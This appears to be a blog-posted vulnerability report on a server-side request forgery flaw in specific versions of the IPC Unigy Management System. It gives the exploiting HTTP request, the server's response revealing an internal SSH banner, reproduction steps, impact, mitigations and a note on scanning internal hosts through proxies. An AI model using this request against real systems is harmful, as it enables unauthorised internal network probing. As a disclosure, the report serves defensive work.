```yaml
---
layout: post
title: Vulnerability Report - SSRF
date: 2024-06-05 23:29:53
categories: vulnerability
tags:
- vulnerability
- Web
---
```


### Vulnerability Report: SSRF in IPC Unigy™ Management System

---

#### Vulnerability Description

A Server-Side Request Forgery (SSRF) vulnerability has been identified in the IPC Unigy™ Management System, affecting the following versions:

- **Unigy™ Version 04.03.00.08.0027**
- **COP Version 03.00.01.00.0018**
- **OS Patch Version 06.00.00.34.0008**

This vulnerability allows a remote attacker to make arbitrary HTTP requests to internal and external resources, using the affected system as a proxy. This can be exploited to access internal data, scan the internal network, and potentially exploit other vulnerabilities that would otherwise be inaccessible externally.

#### Technical Details

##### Exploitation Request

Below is an example of an HTTP request that exploits the SSRF vulnerability:

```
GET http://127.0.0.1:22 HTTP/1.1
Host: 127.0.0.1
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

##### Obtained Response

```
HTTP/1.1 200 OK
Date: Fri, 31 May 2024 15:01:18 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 19

SSH-2.0-OpenSSH_8.1
```

### Detailed Exploitation

#### Requests to Internal Ports

Exploitation can be conducted by sending requests to internal ports of the server itself:

![Internal Port Exploitation](image.png)

#### Requests to External Sites

Additionally, requests can be sent to external websites, allowing the exploitation of external services using the vulnerable server as a proxy:

![External Site Exploitation](image-1.png)


### Impact

Successful exploitation of this vulnerability could allow an attacker to:

- Access protected internal resources.
- Scan the internal network and discover other vulnerable systems.
- Conduct further attacks based on the information obtained.

### Reproducing the Vulnerability

1. Send the HTTP request above using a tool such as Burp Suite or Postman.
2. Observe the response that returns information about the internal service.

### Suggested Mitigations

To mitigate this vulnerability, it is recommended to:

- Implement strict validation and sanitization of user inputs.
- Restrict the destinations allowed for requests made by the server.

### Additional References

Exploiting misconfigured reverse proxies can allow attackers to access internal services through the proxy's "localhost" interface and other internal hosts. This can be done if the proxy allows connections to the "localhost" interface or internal hosts, which can be used as a rudimentary private network scanner.

#### Exploitation Examples

- **Connecting to SSH/SMTP**: A misconfigured HTTP proxy can be exploited to connect to non-HTTP ports, revealing sensitive information about target services.
- **Finding Hosts**: With the ability to connect to the private network through a proxy, host and port discovery can be conducted using tools like Burp Intruder to test various hostnames and ports.

For more information on exploiting open and misconfigured proxies, see the full article [Abusing Reverse Proxies, Part 2: Internal Access](https://blog.projectdiscovery.io/abusing-reverse-proxies-internal-access/).
